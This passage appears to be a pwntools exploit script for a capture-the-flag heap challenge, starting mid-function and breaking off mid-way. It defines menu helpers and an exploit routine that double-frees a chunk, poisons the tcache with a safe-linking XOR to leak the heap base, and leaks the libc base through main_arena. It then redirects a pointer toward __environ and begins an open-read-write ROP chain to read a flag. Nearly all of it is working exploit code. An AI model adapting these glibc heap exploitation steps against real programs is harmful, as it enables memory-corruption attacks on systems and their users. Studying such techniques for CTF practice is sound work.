 ```
    p.sendline(str(choice).encode())

def new(size:int):
    cmd(1)
    p.recvuntil(b"size?")
    p.sendline(str(size).encode())

def edit(index:int, content):
    cmd(2)
    p.recvuntil(b"index?")
    p.sendline(str(index).encode())
    p.recvuntil(b"content?")
    p.send(content)

def dump(index:int):
    cmd(3)
    p.recvuntil(b"index?")
    p.sendline(str(index).encode())
    p.recvuntil(b"content: ")

def free(index:int):
    cmd(4)
    p.recvuntil(b"index?")
    p.sendline(str(index).encode())

def exp():

    new(0x100) 
    free(0)
    free(0)

    log.info("start leaking the heap base addr...")
    edit(0, b'arttnba3')
    dump(0)
    p.recvuntil(b'arttnba3')
    heap_leak = u64(p.recv(6).ljust(8, b"\x00"))
    heap_base = heap_leak - 0x10
    log.success('heap base leak: ' + str(hex(heap_base)))

    edit(0, b'arttnba3' * 2)
    free(0)
    free(0)
    edit(0, p64((heap_base + 0x10) ^ ((heap_base + 0x290 + 0x11c10 + 0x10) >> 12)))
    new(0x100) 
    new(0x100) 
    edit(2, b'\x00\x00' * 39 + b'\x07\x00') 

    log.info("start leaking the libc base addr...")
    free(2)
    free(2)
    edit(2, b'\x0a')
    dump(2)
    main_arena = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00")) - 96 - 0xa
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    log.success('libc base leak: ' + str(hex(libc_base)))
    edit(2, (b"\x01\x00").ljust(128, b'\x00') + p64(libc_base + libc.sym['__environ'] - 0x10))

    log.info("start constructing the orw rop chain...")
    flag_addr = libc_base + libc.sym['__free_hook']
    pop_rdi_ret = libc_base + libc.search(asm("pop rdi ; ret")).__next__()
    log.success(hex(pop_rdi_ret))
    pop_rsi_ret = libc_base + libc.search(asm("pop rsi ; ret")).__next__()
```